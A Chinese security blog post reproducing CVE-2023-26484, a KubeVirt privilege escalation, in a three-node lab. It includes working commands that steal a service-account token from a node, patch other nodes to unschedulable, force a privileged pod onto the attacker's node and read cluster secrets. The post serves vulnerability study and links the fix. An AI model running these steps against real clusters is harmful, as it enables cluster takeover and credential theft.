 +++
title = 'CVE-2023-26484 Kubevirt 权限提升漏洞复现'
date = 2024-04-30T20:29:05+08:00
categories = '安全研究'
+++

该漏洞是论文工作 "Take Over the Whole Cluster: Attacking Kubernetes via Excessive Permissions of Third-party Applications" 挖掘到的, 对其进行复现可以更好地理解rbac的潜在风险.

<!--more-->

# CVE-2023-26484 Kubevirt 权限提升漏洞

## 简介

KubeVirt 是 Kubernetes 的虚拟机管理插件. 在 0.59.0 及之前的版本中, 如果恶意用户接管了运行 virt-handler 的 Kubernetes 节点, 则 virt-handler 服务账户可用于修改所有节点.这可被滥用于诱骗系统级特权组件. 这样, 被入侵的节点就可以被用来提升节点之外的权限, 直到可能拥有对整个集群的完全权限访问. 一旦用户可以入侵特定节点, 最简单的利用方法就是使用 virt-handler 服务账户将所有其他节点设置为不可调度, 然后等待具有高权限的系统关键组件出现在其节点上.


## 环境搭建

参考kubevirt的官网安装

```sh
export VERSION="v0.59.0"
kubectl create -f https://github.com/kubevirt/kubevirt/releases/download/${VERSION}/kubevirt-operator.yaml
kubectl create -f https://github.com/kubevirt/kubevirt/releases/download/${VERSION}/kubevirt-cr.yaml
```

## 复现

从简介中就可以对这个漏洞的作用机理有一个大概的了解, 那么复现的步骤大致分为以下步骤:

1. 获取一个节点的权限, 上面有virt-handler, 由于virt-handler是Daemonsets资源, 因此一定存在
2. 拿到virt-handler的SA Token, 然后向API Server发送请求去 patch 其他节点, 让新创建的容器无法被调度到这些节点上
3. 删除其他节点上的高权限pod, 在这个漏洞中, 我们可以利用virt-operator pod, 它的cluster role具有list 和 get secret的权限
4. 等待高权限pod被重新创建到攻击者控制的节点上
5. 使用高权限pod的SA, 获取集群权限

为了复现完整的流程, 最开始的时候让virt-operator不要出现在自己的节点上. 由于我复现用的集群有三个节点, 而virt-operator的默认replicas是2, 因此修改`kubevirt-operator.yaml`中的相应选项并apply, 最后得到

```
NAME                               READY   STATUS    RESTARTS       AGE
virt-api-695695c8bf-9jsjk          1/1     Running   1 (129m ago)   23d
virt-api-695695c8bf-fljvr          1/1     Running   1 (129m ago)   23d
virt-controller-6b8dbbd8c5-q7vf8   1/1     Running   1 (129m ago)   23d
virt-controller-6b8dbbd8c5-x8jcb   1/1     Running   1 (129m ago)   23d
virt-handler-j4qkf                 1/1     Running   1 (129m ago)   23d
virt-handler-ncpwp                 1/1     Running   1 (129m ago)   23d
virt-operator-5d5bdf9c5b-lzsmr     1/1     Running   2 (129m ago)   23d
```

接下来, 登录没有virt-operator的节点来模拟攻击者控制该节点的场景. 我的集群使用containerd作为容器引擎, 查看节点上的容器

```
❯ ctr -n k8s.io c ls
CONTAINER                                                           IMAGE                                                   RUNTIME
018b6f216241def706bf49b2cbe0136d26a9440ec44fba5ff9158f9c64449f77    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
03bc2c88f4e7f0b748cbff9e74469886125ec7857385750dd6962547fc2c94dd    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
2e34f1411a95334edbb18df3bfd6dd860c8369d19eb41efef66fd4aa75664ef7    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
3cad963e8764d3b57754dc8723e2dce8e7793c388b9a74083fd54ced88595ae3    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
3df18a38c2398324f3836bb0fbe99f55775f641559fde6a9f57247d9d13be913    quay.io/kubevirt/virt-api:v0.59.0                       io.containerd.runc.v2
45a7feb9dabff6a8200ccf37f6da7c01d7f689b866127921f1b1c37d825fdeda    quay.io/kubevirt/virt-handler:v0.59.0                   io.containerd.runc.v2
4db25b7315ee957434ce455fd8de25c499e83ad521cb53f125fa436e5b50ad22    quay.io/kubevirt/virt-api:v0.59.0                       io.containerd.runc.v2
5c26a0f3b233eadb1f46382def64ee0401b8cc19c1dda80f60ad131b1e3f821d    registry.k8s.io/kube-proxy:v1.25.16                     io.containerd.runc.v2
688a35b84fc0ce7bd68e02928eb4e22728559e41977a4d2a5e108f6865c5f3c6    quay.io/kubevirt/virt-controller:v0.59.0                io.containerd.runc.v2
6e6eab0c1ede3d083283f8d96758bc898a81ceb472349e04a38c3bf6042c3bfb    quay.io/kubevirt/virt-controller:v0.59.0                io.containerd.runc.v2
836f05ead0f47d570373917f2315111a85104c36e2e2f700aa5949dac1963ec6    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
8f26e2c39123230330328ab931a517d334c83d92dad0b637c6522217cf7d9482    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
8f4c6b146eeea6b6f994f2deb5adc6d938ec79afb00cb71e7491b8b6e98359f6    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
90cc829dd1102778df74b9616dcef5061476d4a2b04660ee9ba23f34fbfdbaab    quay.io/kubevirt/virt-launcher:v0.59.0                  io.containerd.runc.v2
a4b93524451f68c41efa103e432622113c4909979c5d7ac538eede7455b6bfaa    registry.k8s.io/kube-proxy:v1.25.16                     io.containerd.runc.v2
b23ac35d5a9639ec75a923af74b9f6ed571c89a9a59ad037424fb829a39a73f1    docker.io/flannel/flannel-cni-plugin:v1.4.0-flannel1    io.containerd.runc.v2
bc71642c1b0228d2ed22e92c817d1eed581ef6179e25da5ba14b69df43251166    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
c47082251d14b8e743d41ace290bd64923b704afb9e4e9193d7ad2e6b120f176    quay.io/kubevirt/virt-handler:v0.59.0                   io.containerd.runc.v2
c64079c284e3ce04c261ef192bb1a29a341f0e359dd8c0f0f5678748beaac846    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
ce128301b8f46a6e68711355780ff22389507e62b19ae987cbe6fdbda7fbdc58    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
d80cb0fc9991d5a0ba8bf565cd1ddc94273cfb50c2b56fb883f455193a1cab00    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
e253d834e57f7ee5ae3116e5e922aac2efda2e4475bf79de044b71666191f0c2    registry.k8s.io/pause:3.6                               io.containerd.runc.v2
e983fef8d9a9556f82c81008e8efbfcd432781c48c078db6d36ef72650d0f6e4    docker.io/flannel/flannel:v0.24.3                       io.containerd.runc.v2
```

然后要找virt-handler的sa token, 在这次复现中, sa token的位置在`/var/lib/kubelet/pods/3b42aafd-8696-4077-a903-6f575e7c4784/volumes/kubernetes.io~projected/kube-api-access-dc92g` 下面, 然后使用这个token对其他节点进行patch

```sh
curl -k -X PATCH -H "Authorization: Bearer <sa-token>" \
     -H "Content-Type: application/json-patch+json" \
     -d '[{"op": "replace", "path": "/spec/unschedulable", "value": true}]' \
     "https://<api-server-address>/api/v1/nodes/<node>"
```

然后手动删除`virt-operator`

```sh
kubectl delete po virt-operator-5d5bdf9c5b-lzsmr
```

稍等片刻就可以看到`virt-operator`重新出现在了我们控制的节点上, 使用命令来查看sa token的具体位置

```sh
ctr -n k8s.io c ls
ctr -n k8s.io c info <container-id>
```

然后用这个token去查看secrets, 以kubevirt中的secrets为例, 发送请求即可读取.

```sh
curl -k -H "Authorization: Bearer <sa-token>" https://192.168.59.101:6443/api/v1/namespaces/kubevirt/secrets
```

## 修复

限制了operator对secret的访问范围, [修复的commit](https://github.com/kubevirt/kubevirt/pull/9162/commits/d43ab4ea6b74ae0c3f2e607da111d376bf58240c)
